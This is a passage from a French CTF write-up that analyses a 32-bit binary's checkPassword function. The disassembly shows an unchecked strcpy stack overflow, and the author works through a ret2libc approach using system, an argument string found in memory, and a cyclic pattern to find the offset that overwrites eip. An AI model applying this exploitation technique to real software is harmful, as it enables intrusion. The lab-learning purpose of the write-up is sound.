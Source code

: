 ```nasm
checkPassword (const char *src);
; var const char *s1 @ stack - 0x4d
; var int32_t var_49h @ stack - 0x49
; var int32_t var_45h @ stack - 0x45
; var char *dest @ stack - 0x44
; var int32_t var_8h @ stack - 0x8
; arg const char *src @ stack + 0x4
0x080491c9      push    ebp
0x080491ca      mov     ebp, esp
0x080491cc      push    ebx
0x080491cd      sub     esp, 0x54
0x080491d0      call    __x86.get_pc_thunk.bx ; sym.__x86.get_pc_thunk.bx
0x080491d5      add     ebx, 0x2e2b
0x080491db      mov     dword [s1], 0x64616564 ; 'dead'
0x080491e2      mov     dword [var_49h], 0x66656562 ; 'beef'
0x080491e9      mov     byte [var_45h], 0
0x080491ed      sub     esp, 8
0x080491f0      push    dword [src] ; const char *src
0x080491f3      lea     eax, [dest]
0x080491f6      push    eax        ; char *dest
0x080491f7      call    strcpy     ; sym.imp.strcpy ; char *strcpy(char *dest, const char *src)
0x080491fc      add     esp, 0x10
0x080491ff      sub     esp, 4
0x08049202      push    9          ; 9 ; size_t n
0x08049204      lea     eax, [dest]
0x08049207      push    eax        ; const char *s2
0x08049208      lea     eax, [s1]
0x0804920b      push    eax        ; const char *s1
0x0804920c      call    strncmp    ; sym.imp.strncmp ; int strncmp(const char *s1, const char *s2, size_t n)
0x08049211      add     esp, 0x10
0x08049214      mov     ebx, dword [var_8h]
0x08049217      leave
0x08049218      ret
```

On a l'adresse de `system` mais maintenant il nous fait l'adresse d'une chaine à passer en argument.

Comme pour le [CTF Moee]({% link _posts/2022-01-30-Solution-du-CTF-Moee-de-VulnHub.md %}) il y a une chaine `zR` que je trouve dans une partie du binaire mappé en mémoire :

```
gdb-peda$ x/s 0x804b089
0x804b089:      "zR"
```

Je suppose qu'elle correspond à une instruction ASM standard, car je la croise assez souvent.

Il ne nous reste qu'à déterminer à quel offset on écrasera `eip` comme pour le précédent binaire :

```
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x61616170 ('paaa')
ECX: 0x61 ('a')
EDX: 0xffffc6ff ("deadbeef")
ESI: 0xffffc788 ("haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaad"...)
EDI: 0xffffc7d0 ("zaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad"...)
EBP: 0x61616171 ('qaaa')
```